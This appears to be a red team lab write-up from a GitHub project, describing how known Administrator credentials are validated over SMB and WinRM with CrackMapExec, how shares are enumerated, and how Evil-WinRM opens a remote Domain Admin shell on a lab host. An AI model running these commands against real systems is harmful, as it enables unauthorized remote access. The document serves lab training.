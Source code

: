 # Stage 3 – Credential Access and Remote Shell via WINRM

---

## Objective

The goal of Stage 3 was to identify valid domain credentials and use them to gain authenticated access to the target system.

Simulated a typical red team scenario involving:

- SMB enumeration with known credentials
- WINRM validation using CrackMapExec
- Full domain shell access via Evil-WinRM

---

## Tools Used

- CrackMapExec (SMB / WINRM validation)
- Evil-WinRM (interactive shell)

---

## Credentials Used

| Username      | Password         | Domain        |
|---------------|------------------|---------------|
| Administrator | password    | redblue.lab   |

---

## Steps Performed

### 1. Credential Validation via SMB

```bash
crackmapexec smb 192.168.56.101 -u Administrator -p 'password'
```
- Tests whether the provided credentials are valid over SMB (file-sharing protocol) on the target machine.

### 2. Share Enumeration

```bash
crackmapexec smb 192.168.56.101 -u Administrator -p 'password' --shares
```
- Enumerates available network shares (like C$, ADMIN$, SYSVOL, NETLOGON) accessible to this user.

See [stage3_cme_smb.txt](https://github.com/xMohammadAsimx/RedBlue-Enterprise-Lab/blob/main/phase2_red_team/stage3_credential_access/stage3_cme_smb.txt)


### 3. WINRM Access Validation

``` bash
crackmapexec winrm 192.168.56.101 -u Administrator -p 'password'
```
- Checks if the credentials allow access over the WINRM service, which is needed for remote PowerShell shell access.

### 4. Remote Shell Access with Evil-WinRM

``` bash
evil-winrm -i 192.168.56.101 -u Administrator -p 'password'
```
- Launches an interactive PowerShell session on the remote machine as the authenticated domain user (Domain Admin in this case).

- Confirmed access as redblue\Administrator
- Performed commands like whoami, dir, pwd
